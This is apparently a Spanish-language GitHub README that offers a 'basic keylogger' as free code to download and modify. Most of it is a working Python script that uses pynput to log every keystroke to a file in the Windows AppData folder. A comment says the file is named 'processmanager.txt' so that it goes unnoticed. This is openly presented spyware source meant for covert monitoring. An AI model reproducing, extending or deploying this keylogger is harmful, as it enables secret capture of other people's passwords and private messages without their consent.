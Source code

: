 # Keylogger
**- Aqui vas a poder descargar un Keylogger Básico, siéntete libre de modificar lo que quieras a tu gusto es código libre!**

**- Este programa te permite registrar todas las entradas del teclado de un ordenador, eres libre de modificarlo a tu gusto.**


# Code

```python
# Importamos los modulos que usaremos

import os
import pynput
from pynput.keyboard import Listener 


keys = []
count = 0


path = os.environ ['appdata'] + '\\processmanager.txt' # Elegimos ruta donde guardar el txt + ponemos un nombre que pase desapercibido (Windows)


def on_press(key):
    global keys, count

    keys.append(key)
    count +=1

    if count >= 1:
        count = 0
        write_file(keys)
        keys = []

def write_file(keys):
    with open(path, 'a') as f:
        for key in keys:
            k = str(key).replace("'", "")
            
            if k.find('backspace') > 0:
                f.write(' Backspace ')

            elif k.find('enter') > 0:
                f.write('\n')
                
            elif k.find('shift') > 0:
                f.write(' Shift ')
            
            elif k.find ('space') > 0:
                f.write(' ')

            elif k.find('caps_lock') > 0:
                f.write(' caps_lock ')

            elif k.find('Key'):
                f.write(k)


with Listener(on_press=on_press) as Listener:
    Listener.join()


```
